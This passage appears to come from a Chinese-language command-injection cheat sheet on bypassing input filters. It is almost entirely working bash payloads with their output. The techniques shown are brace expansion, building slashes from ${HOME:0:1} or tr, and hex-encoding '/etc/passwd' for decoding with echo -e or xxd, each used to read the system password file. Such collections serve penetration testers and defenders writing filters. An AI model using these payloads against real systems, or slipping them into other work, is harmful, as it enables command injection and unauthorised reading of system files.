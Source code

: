 ### 使用大括号扩展绕过

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```

### 绕过字符过滤

不使用反斜杠和斜杠执行命令 - Linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### 通过十六进制编码绕过字符过滤

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```
